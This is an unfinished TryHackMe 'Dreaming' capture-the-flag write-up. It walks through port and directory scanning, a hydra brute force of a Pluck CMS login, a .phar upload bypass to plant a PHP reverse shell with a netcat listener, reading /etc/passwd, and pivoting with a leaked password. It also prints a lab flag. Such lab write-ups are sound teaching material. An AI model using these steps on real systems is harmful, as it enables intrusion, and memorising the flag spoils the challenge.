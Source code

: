 # THM write-up - [Dreaming](https://tryhackme.com/r/room/dreaming)

![intro](https://github.com/francescaboe/thm-writeup-dreaming/blob/main/assets/Pasted%20image%2020241218143850.png)

## The intro
Difficult level: **Easy**

Estimated time to complete: **45 mins** 



Let's see what we're working with, not much at all to be honest, but who needs long introductions?

_Solve the riddle that dreams have woven._
Mysterious, don't we like riddles, and we do like dreaming.

_While the king of dreams was imprisoned, his home fell into ruins. 
Can you help Sandman restore his kingdom?_

Let's go save the kingdom and maybe turn it into a democracy.

## The hunt
Let's start with some good old Reconnaissance with the OG `nmap`
`nmap -p- -T4 <target-ip>`
	because no port left behind (`-p-`)
	and we don't have time to be stealthy (`-T4`) 
	![[Pasted image 20241219104314.png]]
Would you look at that, we got ourselves an open http port and an ssh one, let's see what's at that address from our bowsers.

Navigate to `<target-ip>` from firefox: looks like we are dealing with an Apache2 server, let's keep it in mind for the future.
![[Pasted image 20241219104744.png]]

Meanwhile let's see what else we can find, `gobuster` to the rescue!
`gobuster dir -u <target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`
	append `dir`
	to our address `-u <target-ip>`
	use the directory list provided `-w <provided-list>`
	and follow the redirections `-r`
Looks like we got an `/app` directory, let's see what's there
![[Pasted image 20241219105402.png]]
`pluck-4.7.13` what's that? let's google it!
mmh first results look promising, who doesn't like [Remote Code execution vulnerability](https://www.exploit-db.com/exploits/49909)? 
![[Pasted image 20241219105634.png]]
```
Description:
A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin
privileged user to gain access in the host through the "manage files" functionality,
which may result in remote code execution.
```
Let's go!
Firstly, let's go into the pluck folder:
![[Pasted image 20241219105924.png]]

Following the exploit instructions let's click on "admin" and land on the login page, this is what we find: a form input for a password, no username, a commented `bogus` input? 
![[Pasted image 20241218161831.png]]

let's `hydra` the `fuzz` out of this:
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=Invalid" -V`

![[Pasted image 20241218162034.png]]
password is `password`, I could have guessed that!
Ok we are in, let's follow the exploit: we can go to pages > manage files and upload a shell
![[Pasted image 20241219110642.png]]
and we see
![[Pasted image 20241219110904.png]]
let's get our usual php shell from the attack box, or ask AI to create one, whatever is easier:
`cat /usr/share/webshells/php/php-reverse-shell.php > myshell.php.phar`
`nano myshell.php.phar`
then we add our attack box ip and a random port, I like to go for `666` - for no particular reason.
let's also start ourselves an netcat listener at our `666` port
`nc -lvnp 666`
**Note**: if we try to upload a file with just `.php`  extension, `.txt` extension is appended, ruining all the fun, that .`phar` let's us bypass that.

Now, let's navigate to the shell, we do so by clicking on the lens:
![[Pasted image 20241219112116.png]]

Aaaand we're in!
![[Pasted image 20241219111823.png]]
But this shell is lame, let's upgrade it and make our lives a bit easier:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now more reconnaissance, or, as I like to call it, increasingly desperate search for SOMETHING
`whoami` > `www-data` laaaame
- `cat /etc/passwd`
	![[Pasted image 20241218235644.png]]

cool so we have lucien, death and morpheus, incidentally the owners of the flags we need to find. 
`cat /home/lucien/lucien_flag` > permission denied
and same goes for the other two. 
One thing is clear, we need to **ESCALATE PRIVILEDGE**.
Let's keep looking: aimlessly go around the server and look for anything interesting, despair, pray the cybersecurity Gods, curse the cybersecurity gods, talk to the AI, google  franticly, ask for a hint, go take a nap.
![[Pasted image 20241219112959.png]]

`ls -la opt`
![[Pasted image 20241219113103.png]]
curious, 2 python scripts we have reading permissions for: let's read `test.py`, ah-ha! 
![[Pasted image 20241219113454.png]]
if it isn't a password for `lucien`!
`HeyLucien#@1999!`
Let's assume lucien's identity immediately! `su lucien`
Go read the damn flag! `cat /home/lucien/lucien_flag.txt`
1. **What is the Lucien Flag?**  
	_THM{TH3_L1BR4R14N}_

2. **What is the Death Flag?**  
Now that we have a password and we know we have an `ssh` port open, let's try and get ourselves a fully functioning terminal, this reverse-shell served us well but it's time to upgrade: from a new terminal tab
`ssh lucien@<target-ip>`
and it worked!
Let' see what we can do as lucien `sudo -l`

```
User lucien may run the following commands on dreaming:
(death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

if we `ls -l` in `death`'s folder we see
![[Pasted image 20241219114207.png]]
so we can use python to run this getDreams.py script as `death`, but we can't edit it nor open. 

- `sudo -u death /usr/bin/python3 /home/death/getDreams.py`
![[Pasted image 20241219000931.png]]

uh, I just remembered, wasn't there a python script with the same name in `/opt` that we had reading permissions for? let's go see what is the deal with that


3. **What is the Morpheus Flag?**

